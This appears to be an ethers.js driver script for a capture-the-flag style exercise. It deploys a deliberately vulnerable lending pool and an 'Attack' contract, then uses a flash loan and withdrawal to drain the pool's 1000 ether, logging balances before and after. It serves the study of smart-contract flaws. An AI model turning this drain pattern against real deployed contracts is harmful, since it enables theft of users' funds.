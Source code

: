 // ethers is already injected

const provider = new ethers.providers.JsonRpcProvider($rpcUrl)
const signer = provider.getSigner()
const address = await signer.getAddress()
const contract1 = $contracts["SideEntranceLenderPool"]
const contract2 = $contracts["Attack"]
const factory1 = new ethers.ContractFactory(contract1.abi, contract1.evm.bytecode, provider.getSigner())
const factory2 = new ethers.ContractFactory(contract2.abi, contract2.evm.bytecode, provider.getSigner())

const pool = await factory1.deploy()
const attack = await factory2.deploy(pool.address, { value: ethers.utils.parseEther("1"),  gasLimit: "1000000" })

await pool.deposit({ value: ethers.utils.parseEther("1000"),  gasLimit: "1000000" });
await attack.deposit(ethers.utils.parseEther("1"), { gasLimit: "1000000" });
console.log(`Pool: ${(await provider.getBalance(pool.address)).toString()}`)
console.log(`Attack: ${(await provider.getBalance(attack.address)).toString()}`)
await attack.flashLoan(ethers.utils.parseEther("1000"), { gasLimit: "1000000" });
await attack.withdraw();
console.log(`Pool: ${(await provider.getBalance(pool.address)).toString()}`)
console.log(`Attack: ${(await provider.getBalance(attack.address)).toString()}`)
